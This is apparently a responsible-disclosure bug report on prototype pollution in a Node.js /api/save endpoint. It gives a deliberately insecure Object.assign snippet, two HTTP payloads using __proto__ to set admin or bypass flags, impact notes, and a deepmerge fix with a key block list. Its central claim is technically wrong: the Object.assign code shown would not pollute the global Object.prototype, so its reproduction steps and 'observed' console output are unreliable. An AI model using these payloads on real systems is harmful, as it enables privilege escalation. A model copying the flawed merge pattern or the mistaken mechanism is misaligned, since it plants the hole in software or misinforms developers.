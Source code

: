 # 🐞 Prototype Pollution Vulnerability Report

---

## 📌 Title

**Prototype Pollution via `userInput` Parameter in JSON Request**

---

## 📝 Description

A **Prototype Pollution** vulnerability was discovered in the backend request handling of the application. This flaw allows an attacker to manipulate the prototype chain of JavaScript objects, potentially impacting the application's logic, leading to:

- Unauthorized access (e.g., bypassing `isAdmin` checks),
- Application-wide behavior manipulation,
- Denial of service (DoS),
- Security control bypass.

This issue arises due to insecure merging of user input into JavaScript objects using functions like `Object.assign()` or `_.merge()` without input sanitization.

---

## 🌐 Affected Endpoint

- **URL**: `https://vulnerable-website.com/api/save`
- **Method**: `POST`
- **Content-Type**: `application/json`

---

## ⚙️ Vulnerable Code Snippet (Node.js)

```javascript
// ❌ Insecure object merge (prototype pollution vector)
app.post('/api/save', (req, res) => {
    let config = {};
    Object.assign(config, req.body.userInput); // Vulnerable line
    res.send(config);
});
```

---

## 🧪 Steps to Reproduce

### ✅ Pre-requisites

- Use a tool like **Postman**, **cURL**, or **Burp Suite**.
- Ensure server logs or responses can be observed.

### 🔁 Step-by-step

#### Step 1: Send Malicious Payload

```http
POST /api/save HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json

{
  "userInput": {
    "__proto__": {
      "isAdmin": true
    }
  }
}
```

> This payload pollutes the global `Object.prototype`.

---

#### Step 2: Trigger the Effect

Now, make a new request to any endpoint or functionality that checks:

```javascript
if (user.isAdmin) {
    // Admin-only access
}
```

Even without explicitly setting `user.isAdmin`, the check will return `true`, because it now exists on the prototype chain.

You can confirm by injecting this test:

```javascript
console.log({}.isAdmin); // true ✅
```

---

## 💣 Proof of Concept (PoC)

### Malicious Request

```http
POST /api/save HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json

{
  "userInput": {
    "__proto__": {
      "canBypassSecurity": true
    }
  }
}
```

### Result (Observed Later)

```javascript
console.log({}.canBypassSecurity); // true
```

---

## 🔥 Security Impact

- **Privilege Escalation**: Bypass role checks (`isAdmin`, etc.)
- **Logic Manipulation**: Tamper with application-wide behavior
- **Denial of Service**: Overwrite core properties like `toString`, crashing the app
- **Persistent Pollution**: May persist across requests in shared-memory environments

---

## 🔧 Recommended Fix

- Sanitize and **block special keys**: `__proto__`, `constructor`, `prototype`
- Avoid direct use of `Object.assign()`, `_.merge()`, or similar without filters
- Use libraries designed to prevent pollution (e.g., `deepmerge` with custom sanitization)

### ✅ Secure Fix Example (with deepmerge)

```javascript
const deepmerge = require('deepmerge');

const config = deepmerge({}, req.body.userInput, {
  customMerge: (key) => {
    if (["__proto__", "constructor", "prototype"].includes(key)) {
      return () => undefined;
    }
    return undefined;
  }
});
```

---

## 🔐 Security Best Practices

- Whitelist allowed input keys (never blindly trust JSON structure)
- Apply schema validation using tools like **Joi**, **Zod**, or **AJV**
- Log and monitor unexpected object keys in request bodies
- Run security static analysis tools and dependency checkers

---

## 🧾 References

- [OWASP - Prototype Pollution](https://owasp.org/www-community/attacks/Prototype_Pollution)
- [PortSwigger - What is Prototype Pollution?](https://portswigger.net/web-security/prototype-pollution)
- [PayloadsAllTheThings - Prototype Pollution](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Injections/Prototype%20Pollution)

---

## 📅 Report Date

**2025-06-17**

---

## 🧑‍💻 Reported By

- **Security Researcher**: raghav  
- **Tools Used**: Burp Suite, Manual Payload Injection  
- **Severity**: **High**

---

> ⚠️ This vulnerability is submitted under responsible disclosure.